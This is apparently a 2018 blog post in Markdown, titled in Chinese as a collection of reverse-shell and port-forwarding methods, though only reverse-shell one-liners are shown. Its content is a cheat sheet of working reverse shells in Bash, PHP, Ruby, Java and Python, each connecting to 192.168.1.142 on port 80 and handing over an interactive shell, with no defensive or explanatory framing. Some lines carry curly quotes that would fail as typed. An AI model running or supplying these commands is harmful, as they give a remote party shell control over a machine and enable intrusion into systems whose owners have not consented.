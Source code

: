 title: 反弹shell以及端口转发的方法收集
date: 2018-08-23 16:03:29
update: ""
author: me
tags: 
- Hacker
categories: 
- Hacker
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---



## Bash

```bash
bash -i >& /dev/tcp/192.168.1.142/80 0>&1
```

```bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done
```

## PHP

```php
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
```

## RUBY

```ruby
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
```

## JAVA

```java
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()
```

## PYTHON

```python
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```
